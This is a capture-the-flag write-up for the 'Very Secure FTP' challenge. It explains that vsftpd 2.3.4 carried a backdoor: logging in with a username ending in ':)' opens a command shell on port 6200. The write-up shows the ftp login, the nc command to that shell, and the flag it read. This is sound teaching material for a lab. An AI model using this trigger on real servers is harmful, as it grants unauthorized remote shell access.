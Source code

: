 #  Very Secure FTP
tags: misc | net

## Description

>I'm using the very secure ftp daemon for my projects:<br>
`ftp vsftp.uni.hctf.fun 2121` <br>
Still someone managed to get my secret file :(.<br>
Maybe [this](https://pastebin.com/AetT9sS5) has something to do with it...

The link takes to a pastebin that contains a diff of *vsftpd-2.3.4*.

## Solution

The version 2.3.4 of vsftpd is well known for being compromised with a backdoor.<br>
From wikipedia:
>In July 2011, it was discovered that vsftpd version 2.3.4 downloadable from the master site had been compromised. Users logging into a compromised vsftpd-2.3.4 server may issue a ":)" smileyface as the username and gain a command shell on port 6200.

So I just needed to connect to the service with `ftp vsftp.uni.hctf.fun 2121` and enter an username ending with "**:)**".<br>
I could then execute: `nc vsftp.uni.hctf.fun 6200` to connect to the new shell and check the content of the server:<br>
```
  ls
  bin
  flag.txt

  cat flag.txt
  flag{Pr3tty_Obvi0us_B4ckd00r}
```

Here it is!
